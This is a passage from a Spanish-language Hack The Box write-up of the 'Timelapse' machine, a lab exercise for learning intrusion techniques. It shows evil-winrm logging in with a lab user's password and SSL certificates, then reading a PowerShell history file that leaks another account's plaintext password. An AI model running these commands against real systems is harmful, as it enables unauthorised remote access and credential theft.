 El uso de `evil-winrm` nos permite entre muchas cosas entablar una **PowerShell** teniendo credenciales válidas en el sistema. Después de instalarlo, si nos fijamos en como usarlo tenemos tres parámetros interesantes:

> Por lo general `WinRM` corre en el puerto **5985**, pero cuando tiene implementado el `SSL` se ejecuta sobre el puerto **5986** (el que esta corriendo actuamente la máquina).

```bash
❱ evil-winrm -h
...
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
...
```

Podemos jugar con las llaves (SSL) para intentar entablarnos una **PowerShell**, veamos:

```bash
❱ evil-winrm -i 10.10.11.152 -u 'legacyy' -p 'thuglegacy' -S -c cert.pem -k privkey.pem
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452bash_evilwinrm_legacyyPS.png" style="width: 100%;"/>

¡OBTENEMOS LA TERMINAL! (: Sigamos a ver que...

# Historias: legacyy -> svc_deploy [#](#lateral-ps-historial) {#lateral-ps-historial}

> Si recordamos en la carpeta compartida teniamos dos temas, `winrm_backup` y `LAPS`, ya exploramos uno, nos queda el otro ahí flotando, solo que investigando y probando cositas no logramos nada interesante ya que nuestro usuario esta chikito para poder interactuar los los **LAPS**.

Apoyados en [esta guía](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) para escalar privilegios en **Windows**, llegamos a una parte donde busca histórico de comandos, al probar nosotros obtenemos:

* [PowerShell History](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#powershell-history).

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
whoami
exit
```
